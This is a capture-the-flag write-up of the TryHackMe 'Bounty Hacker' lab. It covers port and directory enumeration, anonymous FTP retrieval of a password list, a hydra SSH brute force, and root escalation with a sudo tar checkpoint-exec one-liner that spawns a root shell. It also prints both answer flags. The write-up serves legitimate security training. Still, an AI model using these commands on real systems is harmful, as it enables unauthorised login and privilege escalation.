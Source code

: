 ## Bounty Hacker - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/cowboyhacker)

<i>You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!</i> 

**IP: 10.10.192.55**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation, Brute Force <br>

**Tools Used**: Nmap, Gobuster, Hydra<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20CUT.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- As always start with Nmap and Gobuster.

  ```
  nmap -sC -sV -T5 -p- 10.10.192.55

  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     vsftpd 3.0.3
  | ftp-syst: 
  |   STAT: 
  | FTP server status:
  |      Connected to ::ffff:10.8.120.52
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      At session startup, client count was 4
  |      vsFTPd 3.0.3 - secure, fast, stable
  |_End of status
  | ftp-anon: Anonymous FTP login allowed (FTP code 230)
  |_Can't get directory listing: TIMEOUT
  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
  |   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
  |_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  |_http-title: Site doesn't have a title (text/html).
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  ```

  ```
  gobuster dir -u http://10.10.192.55/ -w /usr/share/wordlists/dirb/common.txt 

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /.htaccess            (Status: 403) [Size: 277]
  /.hta                 (Status: 403) [Size: 277]
  /.htpasswd            (Status: 403) [Size: 277]
  /images               (Status: 301) [Size: 313] [--> http://10.10.192.55/images/]
  /index.html           (Status: 200) [Size: 969]
  /server-status        (Status: 403) [Size: 277]
  Progress: 4614 / 4615 (99.98%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- When I visited web page I found nothing except GOATED ANIME EVER OFC!!! ❤️
  
- Since we can login as Anonymous with FTP, let's do that. There's two files in that directory, get them both to your Kali.

  ```
  ftp 10.10.192.55
  Anonymous
  
  
  ftp> ls
  229 Entering Extended Passive Mode (|||64010|)
  pwd
  ^C
  receive aborted. Waiting for remote to finish abort.
  ftp> 
  ftp> passive
  Passive mode: off; fallback to active mode: off.
  ftp> ls
  200 EPRT command successful. Consider using EPSV.
  150 Here comes the directory listing.
  -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
  -rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
  226 Directory send OK.
  ftp> pwd
  Remote directory: /

  cat task.txt    
  1.) Protect Vicious.
  2.) Plan for Red Eye pickup on the moon.
  
  -lin
  
  cat locks.txt 
  rEddrAGON
  ReDdr4g0nSynd!cat3
  Dr@gOn$yn9icat3
  R3DDr46ONSYndIC@Te
  ReddRA60N
  R3dDrag0nSynd1c4te
  dRa6oN5YNDiCATE
  ReDDR4g0n5ynDIc4te
  R3Dr4gOn2044
  RedDr4gonSynd1cat3
  R3dDRaG0Nsynd1c@T3
  Synd1c4teDr@g0n
  reddRAg0N
  REddRaG0N5yNdIc47e
  Dra6oN$yndIC@t3
  4L1mi6H71StHeB357
  rEDdragOn$ynd1c473
  DrAgoN5ynD1cATE
  ReDdrag0n$ynd1cate
  Dr@gOn$yND1C4Te
  RedDr@gonSyn9ic47e
  REd$yNdIc47e
  dr@goN5YNd1c@73
  rEDdrAGOnSyNDiCat3
  r3ddr@g0N
  ReDSynd1ca7e
  ```

- Beautiful, we even have brute force material, let's do it.

  ```
  hydra -l lin -P locks.txt 10.10.192.55 ssh
  [22][ssh] host: 10.10.192.55   login: lin   password: RedDr4gonSynd1cat3
  1 of 1 target successfully completed, 1 valid password found
  ```

---

## 🧍 User Privilege Escalation

- After logging in with SSH, first flag is already there. Moving to root flag.

  ```
  lin@bountyhacker:~/Desktop$ pwd
  /home/lin/Desktop
  
  lin@bountyhacker:~/Desktop$ ls
  user.txt
  
  lin@bountyhacker:~/Desktop$ cat user.txt 
  THM{CR1M3_SyNd1C4T3}
  ```
  
---

## 👑 Root Privilege Escalation

- For this one `sudo -l` did all the job, you can find the exploit on GTFOBins.

  ```
  lin@bountyhacker:~/Desktop$ sudo -l
  [sudo] password for lin: 
  Matching Defaults entries for lin on bountyhacker:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User lin may run the following commands on bountyhacker:
      (root) /bin/tar
  
  lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  tar: Removing leading `/' from member names
  # whoami
  root
  # id
  uid=0(root) gid=0(root) groups=0(root)
  # cat /root/root.txt
  THM{80UN7Y_h4cK3r}
  ```
  
- That's all folks, I still can't believe that I did this CTF in less than 5 minutes lol. Happy Hacking!

---

## 🏁 Flags

- **User Flag**: `THM{CR1M3_SyNd1C4T3}`
- **Root Flag**: `THM{80UN7Y_h4cK3r}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `/`

- What did I learn?
  `That I improved my skills a lot, I finished this CTF in less than 5 min. Started at 22:03 and finished at 22:07.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
